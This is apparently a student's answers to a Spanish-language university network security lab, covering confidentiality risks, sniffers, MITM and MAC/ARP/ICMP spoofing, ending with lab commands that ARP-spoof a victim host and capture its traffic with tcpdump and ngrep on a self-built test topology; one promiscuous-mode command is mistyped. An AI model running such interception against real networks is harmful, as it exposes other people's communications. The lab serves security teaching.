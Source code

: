 # Practica 3

## Seguridad y Privacidad en Redes

### Ataques contra la confidencialidad e integridad de la información

1. Para cada una de las siguientes situaciones identifique la información que corre riesgo de
   perder su confidencialidad:
   - Olvidar mi celular en lo de un amigo
   - Perder el celular
   - Perder la notebook:
     - Fotos
     - Contactos
     - E-mails
     - Contraseñas
     - Basicamente tu vida
   - Presencia de un visitante ocasional en la oficina en la que trabajo:
     - Documentos importantes y privados
     - Conversaciones clasificadas de la organización
   - Uso ocasional de una PC que posiblemente esté infectada con algún malware:
     - Todo, desde contraseñas, hasta conversaciones y fotos
   - Uso de correo institucional utilizando POP3 e IMAP: 
     - Correo con informacion sensible (horarios, reuniones, conversaciones, contraseñas)
   - Acceso a sitio WEB para compras online a través de HTTP: 
     - Información de tarjetas (Número, Vencimiento, CVC)
     - Información personal sensible (Dirección, DNI, Teléfono)
     - Credenciales

2. Para cada una de las situaciones del ejercicio 1: ¿Qué contramedidas se podrían llevar a cabo para minimizar el riesgo?

3. ¿Qué es un sniffer? Un analizador de protocolos, ¿puede ser usado como sniffer?

   En informática, un Sniffer es un programa de captura de las tramas de una red de computadoras con el fin de observar su contenido.

   Un analizador de protocolos puede ser considerado como sniffer, cuando este se usa para espiar el tráfico de la red.

4. ¿En cuáles de las situaciones del ejercicio 1 tiene sentido el uso de un sniffer?
   - Olvidar mi celular en lo de un amigo: NO
   - Perder el celular: NO
   - Perder la notebook: NO
   - Presencia de un visitante ocasional en la oficina en la que trabajo: NO
   - Uso ocasional de una PC que posiblemente esté infectada con algún malware: NO
   - Uso de correo institucional utilizando POP3 e IMAP: SI
   - Acceso a sitio WEB para compras online a través de HTTP: SI 

5. ¿Que es MITM? ¿Todos los sniffing requieren de un MITM? 
   Man-in-the-middle (MITM) is an attack where the attacker secretly relays and possibly alters the communication between two parties who believe they are directly communicating with each other.

   No, algunos sniffing no requieren de un MITM, ya que la topologia de su red les permite interceptar el tráfico usando su placa de red en modo promiscuo (Usualmente tramas conectadas a un Hub).

### Conceptos generales de redes y servicios de red

6. Para realizar un ataque de sniffing, se pueden intentar distintas alternativas. Analice en cada una de las opciones, de que manera se logra el sniffing identificando cuál sería el dispositivo engañado (PC, SWITCH o ROUTER).
   - Enviando tramas Ethernet con direcciones MAC origen spoofeadas (MAC Spoofing): SWITCH
   - Inundando la red con tramas Ethernet con MACs origen aleatorias (MAC Flooding): SWITCH
   - Enviando respuestas ARP falsas (ARP Spoofing): PC
   - Enviando paquetes ICMP-REDIRECTs falsos (ICMP-REDIRECT attack): ROUTER

### Sniffing en una red switcheada

7. Cree una topología como la siguiente para realizar distintos tipos de ataques de sniffing:

![Topología de la red a atacar](https://raw.githubusercontent.com/matias-pierobon/informatica-unlp/master/syper/p3-Topologia.png)

   1. Desde la PC Atacante2, realice un ataque de sniffing.

```bash
root@Atacante2$ ip link eth0 promic on
root@Atacante2$ tcpdump -i eth0
```

   2. Desde la PC Atacante1, realice un ataque de sniffing. 

```bash
root@Atacante1$ arpspoof -i eth0 -t 10.0.0.21 10.0.0.1
```

```bash
root@Servidor$ ncat -l -k -t 8888
hello from Victima
hello from Servidor
```

```bash
root@Victima$ ncat 10.0.1.10 8888
hello from Victima
hello from Servidor
```

```bash
root@Atacante1$ ngrep port 8888
interface: eth0 (10.0.0.0/255.255.255.0)
filter: (ip or ip6) and ( port 8888 )
####
T 10.0.0.21:33913 -> 10.0.1.10:8888 [AP]
  hello from Victima.                                                        
#
T 10.0.0.21:33913 -> 10.0.1.10:8888 [AP]
  hello from Victima.                                                        
##
T 10.0.1.10:8888 -> 10.0.0.21:33913 [AP]
  hello from Servidor.                                                       
##
```

